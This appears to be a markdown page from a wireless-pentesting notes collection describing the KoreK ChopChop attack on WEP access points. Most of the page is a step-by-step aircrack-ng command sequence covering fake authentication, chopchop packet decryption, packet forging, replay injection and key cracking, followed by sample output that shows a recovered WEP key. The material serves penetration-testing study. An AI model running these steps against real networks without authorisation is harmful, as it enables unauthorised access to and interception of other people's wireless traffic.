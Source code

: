 # Korek ChopChop Attack (Clientless) (WEP)

This attack, when successful, can decrypt a WEP data packet without knowing the key. It can even work against dynamic WEP. This attack does not recover the WEP key itself, but merely reveals the plaintext. However, some access points are not vulnerable to this attack. Some may seem vulnerable at first but actually drop data packets shorter that 60 bytes. If the access point drops packets shorter than 42 bytes, aireplay tries to guess the rest of the missing data, as far as the headers are predictable. If an IP packet is captured, it additionally checks if the checksum of the header is correct after guessing the missing parts of it. This attack requires at least one WEP data packet.

## Commands

* Run [setup](../../setup.md) first
* Three terminals are needed
* NO clients associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack with prolonged reassociation timing (every 60 secs)
sudo aireplay-ng --fakeauth 60 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# [Terminal Three]
sudo aireplay-ng --chopchop -b $BSSID -h $INTERFACEMAC $INTERFACE

# Wait for 'Use this packet y' then enter y
# Wait for a loooong time to reach 100% done.
# It's possible to use less than 100% but risky
# Look for a replay_dec-*.xor file

# Forge a fake packet, -l source, -k destination
sudo packetforge-ng -0 -a $BSSID -h $INTERFACEMAC -l 255.255.255.255 -k 255.255.255.255 -y replay_dec-0613-175215.xor -w inject.cap

# Check veracity of file
tcpdump -n -vvv -e -s0 -r inject.cap

reading from file inject.cap, link-type IEEE802_11 (802.11), snapshot length 65535
17:55:05.191216 Protected 258us BSSID:AA:BB:CC:DD:EE:FF SA:FF:EE:DD:CC:BB:AA DA:ff:ff:ff:ff:ff:ff Data IV:5cbca Pad 0 KeyID 0

# Run the interactive attack against the client
sudo aireplay-ng --interactive -r inject.cap $INTERFACE

# Watch for the data to explode in size with lots of IVs :)
# If successful, data should get large
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* View the output for the success message

```
Reading packets, please wait...
Opening wifu-01.cap
Read 441431 packets.

   #  BSSID              ESSID                     Encryption

   1  AA:BB:CC:DD:EE:FF  wifu                      WEGot 74852 out of 70000 IVsStarting PTW attack with 74852 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [KoreK ChopChop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)
* [ChopChop Theory](https://www.aircrack-ng.org/doku.php?id=chopchoptheory)
* [Learning Thing](https://www.youtube.com/watch?v=2mrmqF4P0DM&ab_channel=learningthing)
